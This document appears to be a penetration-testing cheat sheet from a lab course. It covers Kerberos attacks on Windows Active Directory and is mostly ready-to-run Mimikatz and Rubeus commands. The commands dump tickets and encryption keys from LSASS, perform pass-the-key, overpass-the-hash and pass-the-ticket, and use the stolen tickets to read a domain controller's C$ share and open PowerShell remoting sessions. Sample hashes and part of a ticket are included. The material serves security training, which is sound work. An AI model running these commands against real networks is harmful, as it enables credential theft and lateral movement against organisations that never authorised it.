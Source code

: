 # Content 
- [Harvesting Kerberos Tickets from Windows](#harvesting-kerberos-tickets-from-windows)
  - [Mimikatz - Export Tickets](#mimikatz---export-tickets)
  - [Rubeus - Export Tickets](#rubeus---export-tickets)
- [Pass the Key or OverPass the Hash](#pass-the-key-or-overpass-the-hash-get-tgt)
  - [Mimikatz - Extract Kerberos Keys](#mimikatz---extract-kerberos-keys)
  - [Mimikatz - Pass the Key or OverPass the Hash](#mimikatz---pass-the-key-or-overpass-the-hash)
  - [Rubeus - Pass the Key or OverPass the Hash](#rubeus---pass-the-key-or-overpass-the-hash)
- [Pass the Ticket (PtT)](#pass-the-ticket-ptt-get-tgs)
  - [Rubeus - Pass the Ticket](#rubeus---pass-the-ticket)
  - [Mimikatz - Pass the Ticket](#mimikatz---pass-the-ticket)
  - [Mimikatz - PowerShell Remoting with Pass the Ticket](#mimikatz---powershell-remoting-with-pass-the-ticket)
  - [Rubeus - PowerShell Remoting with Pass the Ticket](#rubeus---powershell-remoting-with-pass-the-ticket)

- On Windows, tickets are processed and stored by the LSASS (Local Security Authority Subsystem Service) process. 
- Therefore, to get a ticket from a Windows system, you must communicate with LSASS and request it. As a non-administrative user, you can only get your tickets, but as a local administrator, you can collect everything.

## Steps 
1) get Kerberos keys
2) use Kerberos keys to get TGT
3) use TGT to get TGS

or 

1) if admin dump TGS from memory 

## Harvesting Kerberos Tickets from Windows
We need a valid Kerberos ticket to perform a Pass the Ticket (PtT). It can be:
- Ticket Granting Ticket (TGT), which we use to request service tickets to access any resource the user has privileges.
- Service Ticket (TGS - Ticket Granting Service) to allow access to a particular resource.



Note: 
1. The tickets that end with $ correspond to the computer account, which needs a ticket to interact with the Active Directory.
2. User tickets have the user's name, followed by an @ that separates the service name and the domain, for example: `[randomvalue]-username@service-domain.local.kirbi` .
3. If you pick a ticket with the service krbtgt, it corresponds to the TGT of that account.
4. 
```
At the time of writing, using Mimikatz version 2.2.0 20220919, if we run "sekurlsa::ekeys" it presents all hashes as des_cbc_md4 on some Windows 10 versions. Exported tickets (sekurlsa::tickets /export) do not work correctly due to the wrong encryption. It is possible to use these hashes to generate new tickets or use Rubeus to export tickets in base64 format.
```


### Mimikatz - Export Tickets

```powershell
mimikatz.exe privilege::debug "sekurlsa::tickets /export"
```

### Rubeus - Export Tickets

```powershell
Rubeus.exe dump /nowrap
```


## Pass the Key or OverPass the Hash (Get `TGT`)
- The Pass the Key or OverPass the Hash approach converts a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full `Ticket-Granting-Ticket (TGT)`.
- To forge our tickets, we need to have the user's hash
- we can use Mimikatz to dump all users Kerberos encryption keys using the module sekurlsa::ekeys. This module will enumerate all key types present for the Kerberos package.
- once we have access to the `AES256_HMAC` and `RC4_HMAC` keys, we can perform the OverPass the Hash or Pass the Key attack using Mimikatz and Rubeus.
- Modern Windows domains (functional level 2008 and above) use `AES` encryption by default in normal Kerberos exchanges. If we use a `rc4_hmac` (NTLM) hash in a Kerberos exchange instead of an` aes256_cts_hmac_sha1 (or aes128) key`, it may be detected as an "encryption downgrade." 

### Mimikatz - Extract Kerberos Keys

```powershell
mimikatz.exe privilege::debug "sekurlsa::ekeys"
```
after we got the keys we can use Mimikatz or Rubeus to Get the `TGT`

### Mimikatz - Pass the Key or OverPass the Hash 
This will create a new cmd.exe window that we can use to request access to any service we want in the context of the target user.
```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f"
```
### Rubeus - Pass the Key or OverPass the Hash 
Note: Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

```powershell
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

## Pass the Ticket (PtT) (Get `TGS`)
Now that we have some Kerberos tickets `TGT` , we can get some `TGS` and use them to move laterally within an environment.

### Rubeus - Pass the Ticket
```powershell
## import the TGS in the session
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
## import a existing TGS file
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi

## access another user files
c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$


# Pass the Ticket - Base64 Format
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>

## access another user files
c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$
```

### Mimikatz - Pass the Ticket
```powershell
mimikatz.exe privilege::debug "kerberos::ptt 'C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi'"

c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$

```


### Mimikatz - PowerShell Remoting with Pass the Ticket

```powershell
mimikatz.exe privilege::debug "kerberos::ptt 'C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi'"

c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
```

### Rubeus - PowerShell Remoting with Pass the Ticket

```powershell
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option /ptt to import the ticket into our current session and connect to the DC using PowerShell Remoting.

```powershell
 Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```
